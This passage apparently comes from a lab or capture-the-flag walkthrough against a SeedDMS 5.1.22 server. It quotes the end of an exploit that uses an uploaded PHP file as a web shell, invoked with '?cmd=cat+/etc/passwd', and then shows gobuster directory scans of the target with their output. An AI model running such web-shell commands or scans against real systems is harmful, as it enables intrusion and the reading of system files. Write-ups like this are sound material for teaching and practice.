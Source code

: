 ?>

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.

Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
```

If we want to use the exploit, we need to login the website. But we have no passwd now.

### 1. Scan the web path

We has found a url path named `/seeddms51x/seeddms-5.1.22/`, so we can scan it now:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ gobuster dir -u http://172.16.86.150/seeddms51x/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 60
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.86.150/seeddms51x/
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 301) [Size: 324] [--> http://172.16.86.150/seeddms51x/data/]
/www                  (Status: 301) [Size: 323] [--> http://172.16.86.150/seeddms51x/www/]
/conf                 (Status: 301) [Size: 324] [--> http://172.16.86.150/seeddms51x/conf/]
/pear                 (Status: 301) [Size: 324] [--> http://172.16.86.150/seeddms51x/pear/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Well, we found a `conf`, keep scanning:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ gobuster dir -u http://172.16.86.150/seeddms51x/conf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x .txt,.conf,.xml,.php-t 60
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.86.150/seeddms51x/conf
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,conf,xml,php-t
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
```